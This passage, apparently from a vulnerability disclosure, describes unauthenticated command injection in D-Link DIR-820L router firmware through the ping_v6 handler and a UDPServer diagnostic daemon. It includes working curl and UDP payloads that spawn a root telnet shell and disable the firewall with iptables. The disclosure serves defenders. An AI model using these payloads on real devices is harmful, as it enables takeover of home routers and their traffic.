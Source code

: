 Much in the same manner as above, requests are executed by the `ncc` / `ncc2` service on the device, which is run as the root user.

The handler for `ping_v4` does not appear to be vulnerable as this resource maps the components of a IPv4 address, represented by a dotted quad, into a format of `%u.%u.%u.%u` at execution time. However, `ping_ipv6` references the user provided input directly as a string (`%s`), which is then passed to a `system()` call. This formatting allows for an attacker to pass arbitrary commands to the device through a HTTP request.

As this resource is also able to be accessed without authentication, it provides a vector for an attacker to execute arbitrary commands on the device - including, but not limited to, DNS hijacking and WAN firewall disablement - via CSRF.

```bash
# Spawn a root shell (telnet)
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(telnetd -l /bin/sh)'

# Flush the iptables INPUT chain and set the default policy to ACCEPT.
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(iptables -P INPUT ACCEPT)'
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(iptables -F INPUT)'
```

### UDPServer / MP Daemon

Note: This vulnerability does not seem to be present in firmware versions before 1.05B03 on the DIR-820LA1, however this may differ on other platforms.

The `ncc` / `ncc2` service on the affected devices appears to have been shipped with a number of diagnostic hooks available. Unfortunately, much in the same manner as the vulnerabilities discussed above, these hooks are able to be called without authentication.

One of the more 'interesting' hooks exposed by these devices allow for a `UDPServer` process to be spawned on the device when called. When started, this process begins listening on the LAN IP on UDP 9034. The source for this service (`UDPServer`) is available in the RealTek SDK, and appears to be a diagnostic tool.

Unfortunately, this process does not appear to perform any sort of input sanitization before passing user input to a `system()` call. As a result of the above, this process is vulnerable to arbitrary command injection.

```bash
# Spawn a root shell (telnet)
curl -i 192.168.0.1/test_mode.txt
echo "\`telnetd -l /bin/sh\`" > /dev/udp/192.168.0.1/9034
```

### Diagnostic hooks

Further to the 'test_mode' hook discussed above, the `ncc` / `ncc2` service on the affected devices appear to have been shipped with a number of other diagnostic hooks enabled by default:
